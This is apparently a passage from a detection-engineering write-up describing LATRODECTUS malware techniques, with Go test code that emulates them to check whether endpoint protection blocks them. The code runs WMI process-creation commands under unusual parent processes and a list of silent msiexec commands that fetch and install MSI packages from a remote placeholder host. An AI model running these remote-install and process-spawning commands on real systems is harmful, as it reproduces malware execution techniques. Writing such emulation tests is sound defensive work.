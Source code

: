 ```go
		if err != nil {
			Endpoint.Say(fmt.Sprintf("[-] failed to execute command: %s", string(out)))
			Endpoint.Stop(1) // ERROR
		}

		Endpoint.Say(fmt.Sprintf("[+] successfully executed command: %s", command))

		if strings.Contains(string(out), "Access Denied") {
			Endpoint.Say("[+] process execution was blocked")
			Endpoint.Stop(126) // PROTECTED
		}
	}

    // process starting via WMI with unusual parent
    for _, parent := range effectiveParents {
        executeCommand(fmt.Sprintf("powershell.exe Start-Process -FilePath 'C:\\Windows\\System32\\Wbem\\WimPrvSE.exe' -ArgumentList 'wmic process call create C:\\Windows\\System32\\cmd.exe' -Wait"))
        executeCommand(fmt.Sprintf("powershell.exe Start-Process -FilePath 'C:\\Windows\\System32\\cmd.exe' -ArgumentList '/C whoami'"))
    }

    for _, path := range parentPaths {
        executeCommand(fmt.Sprintf("powershell.exe Start-Process -FilePath 'C:\\Windows\\System32\\Wbem\\WimPrvSE.exe' -ArgumentList 'wmic process call create %s\\cmd.exe' -Wait", path))
        executeCommand(fmt.Sprintf("powershell.exe Start-Process -FilePath '%s\\cmd.exe' -ArgumentList '/C whoami'", path))
    }
    Endpoint.Stop(101) // UNPROTECTED
}
```

the script detects unusual WMI-based process executions when triggered by non-standard parent processes.

### remote file execution via `MSIEXEC`

`LATRODECTUS` abuses `msiexec.exe` to execute files hosted n remote WebDAV shares.

```go
func test() {
	commands := []string{
		"msiexec.exe /i http://example.com/test.msi /q",
		"msiexec.exe -i http://example.com/test.msi -q",
		"msiexec.exe /PaCKagE http://example.com/test.msi /qn",
		"msiexec.exe /i http://example.com/test.msi /qn",
		"msiexec.exe -i http://example.com/test.msi /quiet",
		"msiexec.exe -fv http://example.com/test.msi /quiet",
		"msiexec.exe /i http://example.com/test.msi /quiet",
		"msiexec.exe /i http://example.com/test.msi /qn /quiet",
		"devinit.exe msi-install http://example.com/test.msi",
		"msiexec.exe /i http://example.com/test.msi /quiet INSTALLDIR=%LOCALAPPDATA%",
		"msiexec.exe /i http://example.com/test.msi transforms=http://example.com/transform.mst /q",
	}

	executeCommand := func(command string) {
		if !Endpoint.IsAvailable("cmd.exe") {
			Endpoint.Say("command execution not available")
			Endpoint.Stop(126) // PROTECTED
		}

		out, err := exec.Command("cmd.exe", "/C", command).CombinedOutput()
		if err != nil {
			Endpoint.Say(fmt.Sprintf("[-] failed to execute command: %s", string(out)))
```